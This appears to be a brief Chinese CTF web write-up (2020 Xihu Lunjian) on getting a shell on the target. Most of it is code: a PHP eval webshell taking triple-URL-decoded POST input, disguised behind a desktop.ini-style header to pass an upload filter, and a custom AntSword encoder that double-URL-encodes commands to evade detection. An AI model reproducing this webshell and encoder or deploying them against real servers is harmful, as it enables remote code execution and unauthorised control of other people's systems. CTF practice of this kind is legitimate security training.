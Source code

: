 > https://www.yuque.com/docs/share/ecb03c8b-300a-4146-9d30-3ce396a7bb1d?#
>
> https://wulidecade.cn/2020/10/08/2020%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91%E9%83%A8%E5%88%86web-wp/#more

下面开始直接打，相关绕过方法，查看其他文档

首先上传shell，先链接蚁剑（可参考Getshell大法文章)

```
ï¿½ï¿½ [.ShellClassInfo] LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21770 IconResource=%SystemRoot%\system32\imageres.dll,-112 IconFile=%SystemRoot%\system32\shell32.dll IconIndex=-235
<?php
@eval(urldecode(urldecode(urldecode($_POST['aa']))));
?>

```

然后配置对应的编码器

```
/**
 * php::base64编码器
 * Create at: 2020/10/12 17:16:57
 */

'use strict';

/*
* @param  {String} pwd   连接密码
* @param  {Array}  data  编码器处理前的 payload 数组
* @return {Array}  data  编码器处理后的 payload 数组
*/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 以下代码为 PHP Base64 样例
    function urlencode(e, r) {
            return ++r ? "%" + ([10] + e.charCodeAt().toString(16)).slice(-2) :
            decodeURI(encodeURIComponent(e)).replace(/[^]/g, urlencode)
        }
  // 生成一个随机变量名
  let randomID = `_0x${Math.random().toString(16).substr(2)}`;
  // 原有的 payload 在 data['_']中
  // 取出来之后，转为 base64 编码并放入 randomID key 下
  data[randomID] = Buffer.from(data['_']).toString();
  data[pwd]=urlencode(urlencode(data[randomID]));

  // shell 在接收到 payload 后，先处理 pwd 参数下的内容，

  // ##########    请在上方编写你自己的代码   ###################

  // 删除 _ 原有的payload
  delete data['_'];
  delete data[randomID];
  // 返回编码器处理后的 payload 数组
  return data;
}

```

